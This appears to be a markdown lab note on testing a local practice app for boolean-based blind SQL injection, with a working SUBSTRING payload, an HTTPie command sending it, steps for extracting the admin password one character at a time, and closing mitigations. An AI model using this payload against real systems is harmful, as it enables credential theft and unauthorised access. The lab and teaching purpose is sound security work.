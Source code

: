 # Blind SQL Injection – Advanced (Using `SUBSTRING` and Boolean-Based Payload)

**Date:** 2025-06-03 14:35:01

---

## 🧪 Objective

Test for **Boolean-based Blind SQL Injection** by extracting data using conditional logic. We want to determine the **first letter of the `admin` user's password** using payloads like:

```sql
' AND SUBSTRING(password,1,1) = 'a' -- 
```

---

## 📤 HTTP Request

### Tool: HTTPie  
### Command:
```bash
http --form POST http://localhost:5000/blind username="' AND SUBSTRING(password,1,1) = 'a' -- "
```

### Headers Sent:
| Header             | Value                      | Purpose |
|--------------------|----------------------------|---------|
| Content-Type        | application/x-www-form-urlencoded | Required for submitting form data |
| Host                | localhost:5000             | Specifies the target |
| User-Agent          | httpie/3.x or browser UA   | Identifies the tool/browser |

---

## 📥 Response

### Possible Outcomes:
- **Response says:** "User found!" → The condition was **true**, so the first letter **is 'a'**.
- **Response says:** "No such user." → The condition was **false**, so the first letter **is NOT 'a'**.

---

## 🔍 Explanation

- `SUBSTRING(password,1,1) = 'a'` checks if the **first character** of the password is `'a'`.
- If **true**, a matching user is returned — revealing that `'a'` is correct.
- Iterate through the alphabet (`a-z`, `0-9`) until you get a **positive match**.
- Continue testing `SUBSTRING(password,2,1)`, `SUBSTRING(password,3,1)`, etc., to brute-force the full password.

---

## 🧠 Exploitation Use

This allows attackers to:
- Enumerate **credentials** without seeing them directly.
- Bypass login by knowing real passwords or session secrets.

---

## 🛡️ Mitigation

- **Use Prepared Statements** to prevent SQL execution with user input.
- Sanitize all input using **whitelisting**.
- Implement **rate-limiting** to prevent brute-force style enumeration.

